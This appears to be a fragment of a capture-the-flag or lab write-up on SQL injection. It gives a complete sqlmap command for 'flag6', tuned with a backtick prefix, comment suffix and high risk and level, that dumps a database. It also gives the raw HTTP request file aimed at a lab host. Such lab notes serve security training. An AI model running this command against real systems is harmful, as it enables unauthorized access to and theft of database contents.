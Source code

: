 #SQL_Injection 

---

- For **flag6** I used the following **sqlmap** command:
```sql
sqlmap -r req.txt --batch --dump --risk 3  --prefix='`)' --suffix="-- -" --level 5 --union-cols={num_of_cols_if_we_know_it}
```

where **req.txt** is defined as follows:

```txt
GET /case6.php?col=id HTTP/1.1
Host: 83.136.253.249:35387
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```

**Note**: Backticks in SQL are used to delimit identifiers, i.e.: table names, column names etc.
